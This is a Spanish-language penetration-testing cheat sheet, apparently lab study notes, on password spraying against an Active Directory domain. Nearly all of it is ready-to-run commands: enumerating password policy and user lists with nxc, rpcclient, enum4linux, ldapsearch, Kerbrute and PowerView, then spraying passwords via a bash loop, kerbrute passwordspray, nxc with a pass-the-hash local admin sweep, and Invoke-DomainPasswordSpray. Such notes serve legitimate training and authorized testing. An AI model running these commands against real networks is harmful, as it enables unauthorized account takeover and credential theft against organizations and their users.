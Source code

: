 #passwordSpraying
## Linux
### Enumerar política de contraseñas

- **`nxc` (SMB - 445):**
	```bash
	# Requiere credenciales
	nxc smb $target -u 'username' -p 'password!' --pass-pol
	```

- **`rpcclient` (SMB - 445, 139):**
	```bash
	rpcclient -U 'username%password' $target
	# o null session
	rpcclient -U "" -N $target
	# Una vez dentro, podemos obtener informacíon básica del dominio con
	rpcclient $> querydominfo
	# Obtener política de contraseñas
	rpcclient $> getdompwinfo
	```

- **`enum4linux` (SMB - 445, 139):**
	```bash
	enum4linux -P $target
	```
`-P` : password police
- **enum4linux-ng (SMB - 445, 139):**
	```bash
	# Con credenciales
	enum4linux-ng -P $target -u 'username' -p 'password!' -oA ilfreight
	# Null session
	enum4linux-ng -P $target -oA ilfreight
	```

- **ldapsearch (LDAP - 389, 636):**
	```bash
	# Con credenciales
	ldapsearch -h $target -D "CN=username,DC=INLANEFREIGHT,DC=LOCAL" -w 'password' -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	# Anonymous bind
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
	```

### Crear User List

- **`enum4linux` (SMB - 445, 139):**
	```bash
	# Sin credenciales
	enum4linux -U $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	# Con credenciales
	enum4linux -U -u <user> -p <pass> $target | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
	```

- **`rpcclient`:**
	```bash
	# sin credenciales
	rpcclient -U "" -N 172.16.5.5
	# Con credenciales
	rpcclient -U "username" 172.16.5.5
	# Una vez en sesión
	rpcclient $> enumdomusers
	```

- **`nxc` SMB ( `--users`):**
	```bash
	nxc smb $target -u <username> -p <password> --users
	```
	La flag `--users` nos indica el número de intentos fallidos y fecha de último intento fallido
- **`ldapsearch` ( Anonymous Bind):**
	```bash
	ldapsearch -h $target -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
	```

- **`windapsearch`:**
	```bash
	./windapsearch.py --dc-ip $target -u "" -U
	```

- **`Kerbrute`:**
	```bash
	kerbrute userenum -d inlanefreight.local --dc $target /opt/jsmith.txt
	# otra lista interesante: /usr/share/wordlists/dirb/others/names.txt
	```

### Ejecutar Password Spraying
- **One-liner bash (SMB - 445, 139):**
	```bash
	for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" $target | grep Authority; done
	```

- **Kerbrute (Kerberos - 88):**
	```bash
	kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
	```

- **nxc (SMB):**
	```bash
	sudo nxc smb $target -u valid_users.txt -p Password123 | grep +
	```

- **Local Admin Spraying:**
	```bash
	sudo nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
	```
	
## Windows
### Enumerar política de contraseñas
- **Null Sessions (net use - 445, 139):**
	El siguiente comando muestra si acepta null sessions
	```
	net use \\DC01\ipc$ "" /u:""
	```
- **net.exe:**
	```powershell
	net accounts
	```
	Si  obtenemos el siguiente valor `Lockout threshold: Never` significa que podemos ejecutar fuerza bruta sin problema. 

- **Powerview:**
	```powershell
	import-module .\PowerView.ps1
	Get-DomainPolicy
	```

### Ejecutar Password Spraying
- **DomainPasswordSpray (Windows AD):**
	```powershell
	Import-Module .\DomainPasswordSpray.ps1
	Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
	```
